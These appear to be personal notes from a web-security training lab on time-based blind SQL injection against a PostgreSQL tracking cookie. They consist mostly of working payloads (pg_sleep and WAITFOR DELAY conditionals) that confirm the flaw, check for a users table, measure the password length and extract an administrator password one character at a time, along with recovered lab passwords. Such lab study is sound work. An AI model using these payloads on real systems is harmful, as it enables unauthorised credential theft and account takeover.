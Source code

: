 
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

' || (select case when (1=1) then pg_sleep(10) else pg_sleep(0) end) --


'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--





# checking the  type of database

' || ( SELECT pg_sleep(10) ) --   => this works which means it is postgresql



# checking if users table exist



'; IF (select '' from users where rownum =1 ) = '' WAITFOR DELAY '0:0:10'--

`' || (select case when (1=1) then pg_sleep(10) else pg_sleep(0) end) --` -> simple sql query to check cases


`' || (select case when (username = 'administrator') then pg_sleep(10) else pg_sleep(0) end from users) --`
we got 10 sec delay
hence there exist users table with username administrator


# Checking password length


FROM users WHERE username='administrator' and length(password)>1

`' || (select case when (username='administrator' and length(password)>1) then pg_sleep(5) else pg_sleep(0) end from users) -- `

length = 20


# brute forcing the password



`' || (select case when (username='administrator' and substr(password,1,1)='y') then pg_sleep(5) else pg_sleep(0) end from users) -- `




1 1
2 2
3 h
4 y
5 i
6 o
7 3
8 d
9 x
10 e
11 z
12 q
13 4
14 z
15 v
16 t
17 z
18 b
19 d
20 8



12hyio3dxezq4zvtzbd8





-----
-----
FROM [Rana Khalil](https://www.youtube.com/@RanaKhalil101)

Lab #14 - Blind SQLi with time delays and informational retrieval

Vulnerable parameter - tracking cookie

End Goals:
- Exploit time-based blind SQLi to output the administrator password
- Login as the administrator user

Analysis:

1) Confirm that the parameter is vulnerable to SQLi

' || pg_sleep(10)--

2) Confirm that the users table exists in the database

' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--

3) Enumerate the password length

' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--
-> length of password is 20 characters

4) Enumerate the administrator password

' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--

13ipnob7l2dkjp3drryy
















































